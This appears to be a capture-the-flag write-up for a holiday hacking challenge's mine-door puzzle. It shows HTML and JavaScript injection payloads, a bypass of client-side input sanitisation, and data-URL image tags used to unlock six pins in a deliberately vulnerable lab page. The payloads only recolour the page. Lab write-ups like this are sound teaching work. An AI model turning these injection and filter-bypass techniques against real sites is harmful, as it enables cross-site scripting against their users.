

2. Open Boria Mine Door
Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.
Difficulty: 3/5
Chat with Hal Tandybuck
Oh hi, I'm Hal Tandybuck. And who might you be?
I'm hanging out by the door to the mines here because, well, I haven't figured out the locks yet.
It actually reminds me of this locked crate I had three years ago...
I doubt we'll get much in the way of debug output.
Think you can help me get through?
Terminal
First we read source code to figure out how the locks work so that we can open the door.
Each pin is coded as a form within an iframe. When we click the go button, that will submit the form by generating a post request to the server.
The idea is to connect the color sensors so that there is a continuous colour path from the input sensor to the output sensor.
<div class="iframes">
<iframe src="/pin1" class="pin1 completed"></iframe>
<iframe src="/pin2" class="pin2"></iframe>
<iframe src="/pin3" class="pin3"></iframe>
<iframe src="/pin6" class="pin6"></iframe>
<iframe src="/pin5" class="pin5"></iframe>
<iframe src="/pin4" class="pin4"></iframe>
<img class="wiring" src="wiring.png">
<canvas class="effects" width="744" height="422"></canvas>
<button class="helpBtn">?</button>
</div>
pin1:
 Looking at the source code for pin 1 we see the answer within a comment.
Looking at the source code for pin 1 we see the answer within a comment.
<form method="post" action="pin1">
<!-- @&@&&W&&W&&&& -->
<input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
<button>GO</button>
</form>
@&@&&W&&W&&&&

pin2:

Looking at the comment in the form we get a clue that the input may not filter out HTML.
<form method="post" action="pin2">
<!-- TODO: FILTER OUT HTML FROM USER INPUT -->
<input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
<button>GO</button>
</form>
As both the input and output sensors are white let's attempt to fill the pin with white color.
<style>body {background-color: white;}</style>
pin3: 
Looking at the comment in the form we get a clue that the input may not filter out javascript.
<form method="post" action="pin3">
<!-- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
<input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
<button>GO</button>
</form>
As both the input and output sensors are blue let's attempt to fill the pin with blue color using JS.
<script>document.querySelector("body").style.cssText = "background-color:blue"</script>

pin4:
<form method="post" action="pin4">
<input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off" onblur="sanitizeInput()">
<button>GO</button>
</form>
const sanitizeInput = () => {
const input = document.querySelector('.inputTxt');
const content = input.value;
input.value = content
.replace(/"/, '')
.replace(/'/, '')
.replace(/</, '')
.replace(/>/, '');
}
As the sanitization happens on the client side, it can be easily disabled from the browser itself from the Event Listeners tab:
Remove blur event listener on input element and submit the following HTML. As HTML sanitization doesn't happen at the server end either, the code is executed as is.
<div style="height:100px;width:200px;background-color:white"></div>
<div style="height:100px;width:200px;background-color:blue"></div>
pin5:
Similar to pin4, remove the event listener on blur and submit the following JS. As JS sanitization doesn't happen at the server end either, the code is executed as is.
<script>
bod = document.querySelector("body");
bod.style.cssText = "background-color:red";
new_div = document.createElement("div");
new_div.style.cssText = "height: 120px;width: 200px;background-color:blue;margin-left: 20px;margin-top: 100px;";
bod.append(new_div);
</script>
pin6:
 After a lot of fiddling around with the filter on this one I realised that some HTML and JS input validation was present but the img HTML element did not seem to be filtered. In particular image data urls were allowed!
In fact, most of the pins did not filter the img element with data URL as source:
After a lot of fiddling around with the filter on this one I realised that some HTML and JS input validation was present but the img HTML element did not seem to be filtered. In particular image data urls were allowed!
In fact, most of the pins did not filter the img element with data URL as source:
To solve pin6 we need green, red and blue colored images which I picked up from wikimedia commons.
Red
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
Blue
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
Green
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
Putting it all together
<img width="200" height="60" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
<img width="200" height="40" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
<img width="200" height="60" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

Rejoice

Wha - what?? You opened all the locks?! Well then...
Did you see the nearby terminal with evidence of an XXE attack?
Maybe take a close look at that kind of thing.